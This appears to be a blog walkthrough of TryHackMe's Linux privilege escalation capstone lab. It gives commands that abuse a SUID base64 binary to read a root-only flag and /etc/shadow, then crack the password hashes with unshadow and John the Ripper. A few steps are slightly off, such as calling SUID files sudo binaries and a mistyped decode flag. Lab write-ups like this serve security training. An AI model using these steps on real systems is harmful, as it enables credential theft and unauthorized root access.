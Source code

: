 ```yaml
---
title: "TryHackMe Linux Privesc Capstone: A Quick Internal Pentest to Gain Root"
datePublished: Wed Aug 16 2023 11:55:33 GMT+0000 (Coordinated Universal Time)
cuid: clldoeqdh000609miczqj50an
slug: linux-privesc-capstone
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1692185506075/efdf958c-8af9-4652-8fcb-5e17b68b4576.png
tags: hacking, ctf, penetration-testing, 2articles1week, ethicalhacking

---
```


This walkthrough will go over the [Linux Privilege Escalation Capstone](https://tryhackme.com/room/linprivesc) found on [TryHackMe](https://tryhackme.com/). The objective is to assess your understanding gained from the prior course content by placing you in an internal environment where you already possess low-level privileges on a Linux server. Your task is to identify an attack vector that enables you to escalate your privileges to root.

### Ready, set, go!

First, we want to check and see if there is a `cron job` that we can exploit.

```bash
cat /etc/crontab
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185826744/eee4c211-6b03-4719-b6c2-265fd4e7ce7e.png align="center")

There's nothing for us here. Let's proceed to see which binaries are available for us to run with `sudo` privileges.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185884807/e3bcf798-ed39-4656-9de4-2114615d3156.png align="center")

We can exploit the `base64` binary with incorrect permissions to obtain the root flag.

```bash
LFILE=/home/rootflag/flag2.txt
base64 "$LFILE" | base64 --decode
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186099250/bdf8c2f0-8489-4189-b365-156a44e465b3.jpeg align="center")

Well, that worked for obtaining the root flag! Acquiring flag1 was a bit more challenging and required the use of `unshadow`. This command merges the `passwd` and `shadow` files into a single file, which can then be utilized by `John-the-Ripper` to crack passwords.

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 -- decode
```

Copy and save the content into a `shadow.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186390044/98ae8149-e977-40a5-9052-586d75b6bfe3.jpeg align="center")

Grab the contents from `passwd`.

```bash
cat /etc/passwd
```

Copy and save the content into a `passwd.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186452849/0d57e72e-5b5c-4686-93f5-af8cf005504a.png align="center")

Combine the files and use `John-the-Ripper` to crack the passwords:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186645883/49740bc6-7749-4c97-a428-0d480adac3ea.jpeg align="center")

Now that we have obtained `missy's` account password, we can switch users and retrieve the final flag from her `Documents` folder:

```bash
/home/missy/documents
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186822198/e7a92ac6-8f53-4cc3-914f-73304d6e6958.jpeg align="center")

### Summary

> In this walkthrough, we explore the Linux Privilege Escalation Capstone on TryHackMe, aiming to escalate our privileges to root. We begin by checking for exploitable cron jobs and identifying binaries with sudo privileges. We exploit the base64 binary to obtain the root flag and use unshadow and John-the-Ripper to crack passwords and retrieve the final flag from missy's Documents folder.